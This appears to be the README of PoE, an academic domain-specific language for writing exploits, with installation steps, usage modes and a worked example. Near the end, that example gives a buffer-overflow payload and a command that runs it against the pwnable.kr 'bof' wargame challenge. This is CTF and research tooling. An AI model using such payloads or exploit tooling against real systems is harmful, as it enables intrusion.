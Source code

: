 PoE
===

PoE (Proof-of-Exploit) is a language designed specifically for writing an
exploit. It provides intuitive and concise syntax, which makes exploit
development easy and fun. For more details, please refer to our paper:
+ [Jung Hyun Kim, Steve Gustaman, and Sang Kil Cha. (2024), PoE: A Domain-Specific Language for Exploitation. In Proceedings of the Silicon Valley Cybersecurity Conference.](https://softsec.kaist.ac.kr/~sangkilc/papers/kim-svcc24.pdf)

Currently, PoE runs on an interpreter that we call `PoE.Replayer`, which is a
[.NET CLI
tool](https://docs.microsoft.com/en-us/dotnet/core/tools/global-tools). See the
[tutorial](tutorial) to learn more about PoE and `PoE.Replayer`.

## Features

+ Static typing
+ Simple and intuitive grammar for writing readable exploits
+ Language-level integration of SMT solving and inline assembly capability
+ Bit-vector manipulation
+ Various built-in functions
+ Automated `stdbuf` patching

## Installation

PoE supports major OSs including Windows, MacOS, and Linux distributions. And
you can easily install the released version of PoE via .NET.

### Prerequisite

+ [.NET 9+](https://dotnet.microsoft.com/en-us/download)

### Instruction

First, make sure you have installed .NET 9+ on your machine so that you can run
the command `dotnet` from your terminal.

Next, just run the following command to install `PoE.Replayer`:
```
dotnet tool install --global PoE.Replayer
```

After the installation, you should be able to run the command `poe` on your
machine. If so, you are all set.

### From source code

Instead of running the command `poe` to use the released version of PoE, you can
also clone the latest source code of PoE and run it:
```
git clone https://github.com/B2R2-org/PoE
cd PoE
dotnet run --project src/PoE.Replayer
```

## How to use

Basically, PoE supports two modes to interact with the target system:
+ Local mode: It runs the local binary to communicate with it.
+ Remote mode: It communicates with the remote service running on the specific
IP address and port number.

You can use either Local mode or Remote mode via the following commands:

+ Local mode: `poe stdin [replay options] <PoE> <bin path> [args]`
+ Remote mode: `poe net [replay options] <PoE> <ip> <port>`

Also, we provide another way to connect to the remote service via SSH mode,
where you can specify the username and password to log in to the remote host via
SSH:

+ SSH mode: `poe ssh [replay options] <PoE> <ip> <port> <user> <password>`

Running the PoE replayer without any parameters will show the other usages of
PoE.

### Example usage

Let us bring here an example CTF problem named `bof` from
[pwnable.kr](pwnable.kr). This problem has a buffer overflow vulnerability, and
you can easily write its exploit via PoE:

```
act exploit():
    write("nc 0 9000\n")
    bv payload = "A"x(0x2c + 0x8) . 0xcafebabe:u32 . "\n"
    write(payload)
    write("cat flag\n")
    return read(-1)

submit:
    return exploit()
```

And then, you can run the following command to run the exploit on the remote
service:
```
poe ssh bof.poe pwnable.kr 9000 bof guest
```
Note that you can also use Remote (`net`) mode when you connect to the remote
service using the other ways (e.g. via `nc`).

For more details, please see the [tutorial](tutorial).
